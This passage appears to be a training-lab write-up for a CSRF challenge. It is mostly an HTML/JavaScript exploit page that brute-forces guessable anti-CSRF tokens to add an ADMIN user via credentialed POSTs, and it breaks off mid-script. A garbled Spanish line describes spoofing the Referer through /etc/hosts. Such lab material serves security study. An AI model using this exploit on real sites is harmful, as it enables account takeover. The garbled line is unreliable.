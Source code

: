 ### Medium: CSRF level 4

> Tuvisí que cambiar el alma local en valor /etc/hosts a un subdominio del objetivo como: hacker.site.4.csrf.labs Así que el árbitro no fue bloqueado

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         1679091c5a880faf6fb5e6087eb1b2dc
         45c48cce2e2d7fbdea1afc51c7c6ad26
         8f14e45fceea167a5a36dedd4bea2543
         a87ff679a2f3e71d9181a67b7542122c
         c4ca4238a0b923820dcc509a6f75849b
         c81e728d9d4c2f636f067f89cc14862c
         c9f0f895fb98ab9159f51fd0297e236d
         cfcd208495d565ef66e7dff9f98764da
         d3d9446802a44259755d38e6d163e820
         e4da3b7fbbce2345d7772b0674a318d5
         eccbc87e4b5ce2fe28308fd9f2a7baf3
      </textarea>
      <script>
         function bruteLoop(TList) {
            for (var i = 0; i < TList.length; i++) {
               console.info("Testing: " + TList[i]);
               XHRPost(TList[i]);
            }
         }

         function XHRPost(tVal) {
            var http = new XMLHttpRequest();
            var url = "http://4.csrf.labs/add_user.php";
            var token = tVal;
            params = {
               "name": "Johnny",
               "surname": "praq",
               "email": "john@hacker.site",
               "role": "ADMIN",
               "submit": "",
               "CSRFToken": token,
            };
            http.open("POST", url, true);
            http.withCredentials = 'true';

            // Send the proper header information along with the request
            http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            http.onreadystatechange = function () {
               if (http.readyState > 1) {// We don't care about responses
                  // console.warn("Aborted " + token + " with status " + http.readyState);
                  http.abort();
               }
            };

            // Serialize the data without using JQuery
            queryParams = Object.keys(params).reduce(function (a, k) {
               a.push(k + '=' + encodeURIComponent(params[k]));
               return a
            }, []).join('&');
            http.send(queryParams);
         }

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean); // Remove empty lines
```